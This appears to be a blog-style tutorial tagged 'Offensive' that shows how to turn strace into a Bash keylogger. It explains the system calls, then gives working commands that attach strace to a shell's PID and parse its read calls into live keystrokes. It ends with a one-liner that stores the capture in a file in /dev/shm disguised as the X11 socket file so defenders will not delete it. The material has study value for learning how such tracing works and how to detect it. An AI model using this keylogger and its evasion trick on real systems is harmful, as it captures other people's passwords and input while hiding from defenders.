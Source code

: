 ```yaml
---
title: Strace - Bash Keylogger
date: 2021-11-17 00:00:00 +0000
categories: [Linux, Tools, Offensive]
tags: Linux, Tools, Offensive
toc: true
published: true
---
```



## Introduction

System calls are used by processes to interact with the kernel. This means if a process wants to read or write to a file, they must make a system call to do so.

To see this in practice, we'll use `strace`.
`strace` simply traces system calls, and is primarily used for debugging purposes. 

For this demonstration we'll use the basic command echo:
```bash
echo "Freddie" > /tmp/demo.file
```

This command simply writes the string "Freddie" to the temporary file `/tmp/demo.file`

We can use `strace` to trace what system calls are being called during the execution of this command.

In order for `strace` to trace the bash redirect, we must attach `strace` to the parent bash process, instead of just the `echo` command.

- `strace -p [pid]` attaches to a PID (Process ID)
- `$$` in bash is the current process's PID (or the bash shell)

![](/assets/images/strace/strace-output-1.png)



When we paste and run our command in the above bash terminal, we are greeted with an overwhelming amount of data. 

If we ignore the irrelevant (for the purposes of this demonstration) system calls made by bash and search for our input we can see two key system calls are made. 

![](/assets/images/strace/strace-output-2.png)


`openat()` - This opens `/tmp/demo.file` with the 0666 permissions.
`write()` - This core system call writes the string `Freddie\n` to the opened file. 

It is worth noting the newline is appended by default by the echo command - we can remove that with `echo -n [string]` if necessary. 


If you have been following the commands, you may have noticed something interesting when tracing the bash process. 

![](/assets/images/strace/strace-output-3.png)

When we type commands into the bash shell above, each character can be seen in both the `read` and `write` system calls. From this simple observation we can process the strace output to create a very rudimentary bash keylogger. 
<br>

### Basic Keylogger

As seen by the previous strace example, a large amount of unimportant system calls are also generated. To filter only the system calls we want, we can use the `-e [syscall]` flag with strace.

We will select the `read` system call to detect all keys entered.

![](/assets/images/strace/strace-output-8.png)

This looks much better. 

Now, let's try to extract input in a more readable format.
This is where the fun(?) begins. 

![](/assets/images/strace/strace-output-7.png)

If we try to pipe our strace output to any text processing commands, nothing.
After a considerable amount of head banging and stack overflow researching, this is due to the fact `strace` writes all it's output to `stderr`. 

![](/assets/images/strace/strace-output-6.png)

With a little more help from stack overflow (I fear any man who can remember regex), each character inside the quotes can be extracted. 

![](/assets/images/strace/strace-output-9.png)

This is when another *slight* issue arises. Due to some linux black magic, if you pipe the output of strace to grep, it is "buffered", and cannot be easily piped into further commands. 
<br>

To get around this technical issue, we can output strace to a file in the background, then read the file and perform operations on that output. 

### Basic Evasion

```bash
strace -e read -p [pid] -o /dev/shm/.X11-unix
```

The above command creates a hidden file in `/dev/shm`. The `/dev/shm` directory lives only in live memory, and is volatile. This makes it great for writing files we don't want to be found, as the folder is wiped on restart. 

`X11` is a linux graphics display, and `.X11-unix` is it's config file.

From experience you should not delete that (the real) file - bad things happens.

This taps into the primal instinct of "bugger I won't delete that again" to prevent defenders from ***not*** deleting our keylogger file >:)

<br>

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix
```


We can background the `strace` command, then read the hidden file in order to parse it correctly.
<br>

### Parsing

Now, all that is needed to be done is to parse the strace output in a readable manner. 

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix | grep -oa -E '"(.*?)"' | sed 's/^.\(.*\).$/\1/' | tr -d "\n" | sed -e "s/\\\r/\n/g" 
```
<br>

If we wrap the `cat` command using `watch` to continually update it, we can see captured keystrokes in live time.

```bash
watch -n 0.1 'cat [command]'
```
<br>

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

The result:

![](keylogger-in-action.png)

Voila!

The final step to construct our janky bash keylogger, is to concatenate it into a glorious one-liner:

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix & watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

We now have a functioning keylogger, that operates off a commonly installed debugging tool `strace`!
<br>
### Conclusion

If there's any takeaway messages from this absolute abomination of a script and article, it's that there is almost nothing that Stack Overflow and a little glue can't fix™
